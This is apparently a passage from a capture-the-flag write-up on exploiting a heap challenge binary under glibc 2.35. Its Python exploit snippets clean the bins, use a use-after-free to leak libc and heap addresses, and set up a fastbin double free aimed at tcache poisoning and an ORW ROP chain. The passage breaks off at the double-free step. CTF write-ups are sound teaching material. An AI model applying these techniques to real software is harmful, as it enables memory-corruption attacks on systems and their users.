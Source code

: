 so in order to make the exploitation easier to debug, I cleaned the bins first

```python
# clean bins
for _ in range(16):
    alloc(0, 0x20-0x10, b'a\n')
for _ in range(16):
    alloc(0, 0x70-0x10, b'a\n')
for _ in range(15):
    alloc(0, 0x80-0x10, b'a\n')
for _ in range(5):
    alloc(0, 0xd0-0x10, b'a\n')
for _ in range(2):
    alloc(0, 0xf0-0x10, b'a\n')
```

with the bins cleaned, I utilize UAF to get an easy libc leak through unsorted bin and heap leak

```python
alloc(0, 0x410, b'idk\n')
alloc(1, 0x10, b'guard\n')
free(0)
show(0)
libc.address = u64(io.recvline().strip().ljust(8, b'\x00')) - 0x219ce0

alloc(0, 0x410, b'idk\n')
free(1)
show(1)
heap = (u64(io.recvline().strip().ljust(8, b'\x00')) - 1) << 12
```

because of seccomp, we're forced to do an ORW ROP, to do this we need an arbitrary read to environ and arbitrary write to write the ROP payload. &#x20;

we'll achieve it through tcache poisoning, but without the edit function how are we gonna achieve this?

we can do this through `double free`, but since libc is 2.35, double free on the tcache will not work, however it is still applicable through the fastbin thus the technique `fastbin dup`&#x20;

first we'll allocate the tcache to its max size (7) and then link 3 chunk into fastbin with the pattern A - B - A to cause a double free

```python
for i in range(9):
    alloc(i, 0x10, b'a\n')
for i in range(9):
    free(i)
free(7)
```

<figure><img src="../../.gitbook/assets/Screenshot 2024-10-11 183632.png" alt=""><figcaption></figcaption></figure>
